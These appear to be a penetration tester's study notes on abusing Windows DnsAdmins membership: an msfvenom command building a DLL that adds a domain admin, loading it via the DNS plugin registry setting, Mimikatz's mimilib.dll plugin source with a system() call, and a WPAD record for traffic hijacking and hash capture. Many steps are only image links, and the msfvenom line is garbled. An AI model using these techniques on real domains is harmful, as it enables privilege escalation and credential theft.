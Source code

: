 The Windows DNS service supports custom plugins and can call functions from them to 
resolve name queries that are not in the scope of any locally hosted DNS zones.

The DNS service runs as `NT AUTHORITY\SYSTEM`. Membership in this group could potentially be
leveraged to escalate privileges on the DC or in a situation where a separate server is acting
as the DNS server for the domain.

It's possible to use the built-in `dnscmd` utility to specify the path of the plugin DLL.
Here's an example of an attack when DNS is run on a DC:

https://adsecurity.org/?p=4064

#### Scenario

- DNS management is performed over RPC
- `SeverLevelPluginDll` allows us to load a custom DLL with no verification of the path using `dnscmd`
- When a `DnsAdmins`  group member runs the command below, the `ServerLevelPluginDll` regkey 
- is populated.

- When the DNS service is restarted, the DLL in this path will be loaded 
- (ie, a network share DC can access).
- An attacker can load a custom DLL to obtain a reverse shell or load tools like Mimikatz as a DLL.

## Leveraging DnsAdmins Access

##### Generating Malicious DLL
```bash
msfvenom - windows/x64/exec cmd=
	'net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

sudo python3 -m http.server 7777
```

#### Download the DLL to the target

![[Pasted image 20230107142718.png]]

#### Load DLL as Non-Privileged User

![[Pasted image 20230107142759.png]]

- Only DnsAdmins are allowed to perform this, as expected. WHOOPS?
- We need to load this DLL as a DnsAdmin:

#### Loading DLL as Member of DnsAdmins

![[Pasted image 20230107142842.png]]

#### Loading Custom DLL

![[Pasted image 20230107142918.png]]

Once the DLL is added we can either restart the DNS service if we have the rights or we would 
wait for a server restart. Once restarted, we should be able to run our custom DLL and add a
user or get a reverse shell

##### Finding User's SID for the DNS Service

![[Pasted image 20230107143353.png]]

#### Check Permissions on DNS Service
https://www.winhelponline.com/blog/view-edit-service-permissions-windows/ for SDDL translation

![[Pasted image 20230107143536.png]]

#### Stop/Start Service

![[Pasted image 20230107143557.png]]
![[Pasted image 20230107143638.png]]

#### Confirm Group Membership

![[Pasted image 20230107143657.png]]

## Cleaning Up For Our Customer

#### Confirm Registry Key Added/ Delete Registry Key

![[Pasted image 20230107143745.png]]
![[Pasted image 20230107143820.png]]
![[Pasted image 20230107143847.png]]

#### Check DNS Status

![[Pasted image 20230107143905.png]]

## Using Mimilib.dll

```cpp
/*	Benjamin DELPY `gentilkiwi`
	https://blog.gentilkiwi.com
	benjamin@gentilkiwi.com
	Licence : https://creativecommons.org/licenses/by/4.0/
*/
#include "kdns.h"

DWORD WINAPI kdns_DnsPluginInitialize(
	PLUGIN_ALLOCATOR_FUNCTION pDnsAllocateFunction, 
	PLUGIN_FREE_FUNCTION pDnsFreeFunction
)
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginCleanup()
{
	return ERROR_SUCCESS;
}

DWORD WINAPI kdns_DnsPluginQuery(
	PSTR pszQueryName, 
	WORD wQueryType, 
	PSTR pszRecordOwnerName, 
	PDB_RECORD *ppDnsRecordListHead
)
{
	FILE * kdns_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kdns_logfile = _wfopen(L"kiwidns.log", L"a"))
#pragma warning(pop)
	{
		klog(kdns_logfile, L"%S (%hu)\n", pszQueryName, wQueryType);
		fclose(kdns_logfile);
	    system("ENTER COMMAND HERE");
	}
	return ERROR_SUCCESS;
}
```

## Creating a WPAD Record

https://learn.microsoft.com/en-us/powershell/module/dnsserver/set-dnsserverglobalqueryblocklist?view=windowsserver2022-ps

Membership in this group gives us the rights to disable global-query blocking security, 
which will block this attack by default.

Server 2008 first introduced the ability to add to a global query block list on a DNS server.
By default, Web Proxy Automatic Discovery Protocol (WAPD) and Intra-site Automatic Tunneling
Addressing Protocol (ISATAP) are on the global query block list. These protocols are quite
vulnerable to hijacking and any domain user can create a computer object or DNS record
containing those names.

After disabling the global query block list and creating a WPAD record, every machine running
WAPD with default settings will have it's traffic proxied through our attack machine.

We could use a tool like Responder or Inveigh to perform traffic spoofing and attempt to capture
password hashes and crack them offline, or perform an SMBRelay attack.

##### Disabling the Global Query Block List

![[Pasted image 20230107143953.png]]

#### Adding a WPAD Record

```powershell-session
C:\htb> Add-DnsServerResourceRecordA -Name wpad -ZoneName inlanefreight.local -ComputerName dc01.inlanefreight.local -IPv4Address 10.10.14.3
```